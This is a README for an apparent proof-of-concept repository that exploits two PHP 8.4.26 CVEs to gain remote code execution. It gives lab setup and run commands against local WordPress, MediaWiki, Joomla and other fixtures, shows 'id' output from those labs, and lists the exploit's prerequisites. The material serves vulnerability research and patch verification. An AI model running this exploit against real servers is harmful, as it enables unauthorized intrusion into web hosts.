


# php2shell

> **Disclaimer**
>
> Use this repository only with the included local labs or another system you
> are explicitly authorized to test. The exploit client accepts only the
> loopback lab targets documented below; use the passive scanner only on
> assets you are authorized to assess. Read
> [`AUTHORIZED_USE.md`](AUTHORIZED_USE.md) before use.

`php2shell` is a reproducible proof of concept for CVE-2026-109618 and
CVE-2026-109619. On the verified PHP 8.4.26 Apache layout, it leaks the Zend MM
heap and loaded `libphp` bases. An RCE result is accepted only when the exploit
executes `id` and retrieves fresh output containing both `uid=` and `gid=`.

### Verified PoC



### Safe Multi-Asset Scan



The scanner performs bounded, ordinary HTTP requests only. It does not invoke
the PoC, upload a payload, write a remote file, or test RCE/DoS.

## Quick Start

```bash
git clone https://github.com/dimasma0305/php2shell.git
cd php2shell

docker compose -f lab/8.4.26/wordpress/compose.yaml up -d --build
python3 -u poc.py --url http://127.0.0.1:18173/
```

On Windows, run `python poc.py --url http://127.0.0.1:18173/`.

A successful run ends with fresh target output:

```text
PROOF: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Each lab section below has its own VHS recording of the displayed `poc.py`
command and its output against that running lab. The Docker setup and teardown
commands are operator steps outside the recording.

Stop the lab when finished:

```bash
docker compose -f lab/8.4.26/wordpress/compose.yaml down -v
```

## Safe Multi-Asset Scanner

Start the included labs, place one authorized HTTP(S) URL per line in
`assets.txt`, then run:

```bash
docker compose -f compose.scan.yaml up -d --build
python scan.py --assets assets.txt
docker compose -f compose.scan.yaml down -v
```

The output distinguishes an observed affected or patched PHP version from a
hidden/unknown version. It never treats reachability as proof of vulnerability
or safety. [VHS tape](docs/demo/scan-all-labs.tape) ·
[MP4](docs/demo/scan-all-labs.mp4) ·
[Raw terminal output](docs/demo/scan-all-labs.ascii) ·
[Validation record](docs/evidence/scan-all-labs-validation.txt)

## Labs

Every linked lab has retained output. The status describes only the exact
application, PHP build, and proof level in that row.

| PHP | Lab | Status | Live VHS | Output |
| --- | --- | --- | --- | --- |
| 8.4.26 | [WordPress](lab/8.4.26/wordpress/) | **RCE verified** | [Watch](docs/demo/wordpress.gif) | [Fresh output](docs/demo/wordpress-proof.txt) |
| 8.4.26 | [MediaWiki](lab/8.4.26/mediawiki/) | **RCE verified** | [Watch](docs/demo/mediawiki.gif) | [Fresh output](docs/demo/mediawiki-proof.txt) |
| 8.4.26 | [DokuWiki](lab/8.4.26/dokuwiki/) | **RCE verified twice** | [Watch](docs/demo/dokuwiki.gif) | [Fresh output](docs/demo/dokuwiki-proof.txt) |
| 8.4.26 | [Joomla](lab/8.4.26/joomla/) | **RCE verified twice** | [Watch](docs/demo/joomla.gif) | [Fresh output](docs/demo/joomla-proof.txt) |
| 8.4.26 | [PHP/Apache](lab/8.4.26/php-apache/) | **RCE verified** | [Watch](docs/demo/php-apache.gif) | [Fresh output](docs/demo/php-apache-proof.txt) |
| 8.4.26 | [CodeIgniter](lab/8.4.26/codeigniter/) | **RCE verified** | [Watch](docs/demo/php2shell-codeigniter-live.gif) | [Fresh `id` output](docs/demo/php2shell-codeigniter-live-proof.txt) |

### WordPress

The main fixture uses WordPress commit
`fc9832bef919c2a08541248db23af90d14ffb082` with a deterministic MariaDB seed.

```bash
docker compose -f lab/8.4.26/wordpress/compose.yaml up -d --build
python3 -u poc.py --url http://127.0.0.1:18173/
docker compose -f lab/8.4.26/wordpress/compose.yaml down -v
```


[VHS tape](docs/demo/wordpress.tape) · [MP4](docs/demo/wordpress.mp4) ·
[output from this take](docs/demo/wordpress-proof.txt) ·
[earlier proof](docs/evidence/wordpress-proof.txt)

### MediaWiki

This fixture exercises the ordinary Scribunto route and writes its proof under
MediaWiki's default writable `images/` directory.

```bash
docker build -t php2shell-mediawiki lab/8.4.26/mediawiki
docker run --rm -d --name php2shell-mediawiki -p 127.0.0.1:18081:80 php2shell-mediawiki
python3 -u poc.py --url http://127.0.0.1:18081/
docker rm -f php2shell-mediawiki
```


[VHS tape](docs/demo/mediawiki.tape) · [MP4](docs/demo/mediawiki.mp4) ·
[output from this take](docs/demo/mediawiki-proof.txt) ·
[earlier proof](docs/evidence/mediawiki-proof.txt)

### DokuWiki

This fixture uses the unmodified DokuWiki `2026-07-14c` application files on
the affected PHP runtime.

```bash
docker build -t php2shell-dokuwiki lab/8.4.26/dokuwiki
docker run --rm -d --name php2shell-dokuwiki -p 127.0.0.1:18083:80 php2shell-dokuwiki
python3 -u poc.py --url http://127.0.0.1:18083/
docker rm -f php2shell-dokuwiki
```


[VHS tape](docs/demo/dokuwiki.tape) · [MP4](docs/demo/dokuwiki.mp4) ·
[output from this take](docs/demo/dokuwiki-proof.txt) ·
[earlier runs](docs/evidence/dokuwiki-proof.txt),
[run 2](docs/evidence/dokuwiki-proof-run2.txt)

### Joomla

This fixture serves the ordinary Joomla `6.1.4` installer route on the
affected PHP runtime.

```bash
docker build -t php2shell-joomla lab/8.4.26/joomla
docker run --rm -d --name php2shell-joomla -p 127.0.0.1:18086:80 php2shell-joomla
python3 -u poc.py --url http://127.0.0.1:18086/ --skip-warmup
docker rm -f php2shell-joomla
```


[VHS tape](docs/demo/joomla.tape) · [MP4](docs/demo/joomla.mp4) ·
[output from this take](docs/demo/joomla-proof.txt) ·
[earlier runs](docs/evidence/joomla-proof.txt),
[run 2](docs/evidence/joomla-proof-run2.txt)

### PHP/Apache

The smallest fixture is a plain PHP endpoint without a framework or an
application-level `session_start()` call.

```bash
docker build -t php2shell-php-apache lab/8.4.26/php-apache
docker run --rm -d --name php2shell-php-apache -p 127.0.0.1:18082:80 php2shell-php-apache
python3 -u poc.py --url http://127.0.0.1:18082/
docker rm -f php2shell-php-apache
```


[VHS tape](docs/demo/php-apache.tape) · [MP4](docs/demo/php-apache.mp4) ·
[output from this take](docs/demo/php-apache-proof.txt) ·
[earlier proof](docs/evidence/php-apache-proof.txt)

### CodeIgniter

This fixture uses CodeIgniter appstarter `4.7.4` with framework `4.7.5`. Its
default application has no suitable web-readable writable directory. The PoC
executes `id` and POSTs its stdout to its own listener through the lab's short
Docker network alias `x`. No target-side proof script is installed.

```bash
docker compose -f lab/8.4.26/codeigniter/compose.yaml up -d --build
docker build -f docs/demo/recorder.Dockerfile -t php2shell-vhs-recorder docs/demo
docker run --rm --network codeigniter_default --network-alias x \
  -v "$PWD:/vhs" -w /vhs --entrypoint sh php2shell-vhs-recorder \
  -lc 'socat TCP-LISTEN:18087,bind=127.0.0.1,reuseaddr,fork TCP:codeigniter:80 >/tmp/proxy.log 2>&1 & exec python3 -u poc.py --url http://127.0.0.1:18087/ --retries 1'
docker compose -f lab/8.4.26/codeigniter/compose.yaml down -v
```

The PoC command inside the attacker container is
`python3 -u poc.py --url http://127.0.0.1:18087/ --retries 1`. It requires the
`x` alias to resolve to that container. A successful run prints fresh `uid=` and
`gid=` output. Restart the lab with a new Apache master if heap leakage fails;
the layout is sensitive to ASLR and allocator state. A
[failed fresh run](docs/evidence/codeigniter-id-run-b.txt) shows that
pre-execution failure mode.

Record another live run after starting the real lab:

```bash
docker compose -f lab/8.4.26/codeigniter/compose.yaml up -d --build
docker build -f docs/demo/recorder.Dockerfile -t php2shell-vhs-recorder docs/demo
docker run --rm --network codeigniter_default --network-alias x \
  -v "$PWD:/vhs" -w /vhs php2shell-vhs-recorder docs/demo/codeigniter-live.tape
docker compose -f lab/8.4.26/codeigniter/compose.yaml down -v
```


[VHS tape](docs/demo/codeigniter-live.tape) ·
[MP4](docs/demo/php2shell-codeigniter-live.mp4) ·
[raw output](docs/demo/php2shell-codeigniter-live-proof.txt) ·
[fresh run 1](docs/evidence/codeigniter-id-run-a.txt) ·
[fresh run 2](docs/evidence/codeigniter-id-run-d.txt) ·
[fixed-build control](docs/evidence/codeigniter-id-fixed-negative.txt)

The video records the public PoC against the running lab in the same take.

## Requirement of the Exploit

- Docker with Compose support and Python 3.11 or newer.
- The exact unpatched PHP 8.4.26 Apache x86-64 build represented by the
  included profile. A matching version header alone is insufficient.
- Apache prefork with `mod_php`, persistent keep-alive request handling, and
  Session upload progress enabled.
- Multipart request streaming that reaches PHP without a proxy or WAF
  buffering, rejecting, truncating, or rewriting it.
- A matching application heap layout and fresh runtime leaks for the Zend MM
  heap and `libphp` bases.
- Enough accepted request size and memory for the roughly 140 MiB calibrated
  request.
- An attacker-visible route that returns the fresh stdout of `id`, including
  both `uid=` and `gid=`. A callback path by itself is insufficient for the
  **RCE verified** label.

Unknown profiles fail closed. PHP 8.2.35, 8.3.36, 8.4.27, and 8.5.12 contain
the upstream fixes and are not supported targets.

Useful profile checks:

```bash
./poc.py --list-builds
./poc.py --list-profiles
python3 -u poc.py --url http://127.0.0.1:18173/ --check-profile
```

## Scanner Limitations

- The scanner can assess only an exact PHP version naturally disclosed in an
  HTTP response. A hidden version remains unknown.
- A reported affected version is version triage, not proof that the vulnerable
  request path, SAPI, heap layout, or RCE prerequisites are present.
- A reported patched version covers these two CVEs only; it is not a general
  security assessment of the application.
- Redirects are not followed, response bodies are capped at 64 KiB, and TLS
  certificate verification stays enabled.

## Reference

- [PHP security release, 21 October 2026](https://www.php.net/archive/2026.php#2026-10-21-5)
- [CVE-2026-109618 advisory](https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w)
- [CVE-2026-109619 advisory](https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp)
- [Upstream PHP 8.5.11 to 8.5.12 diff](https://github.com/php/php-src/compare/php-8.5.11...php-8.5.12)
- [Calif: PHP use-after-free research](https://calif.io/research/php-uaf)
- [Calif: php2shell](https://calif.io/php2shell/)
- [Charmbracelet VHS](https://github.com/charmbracelet/vhs)
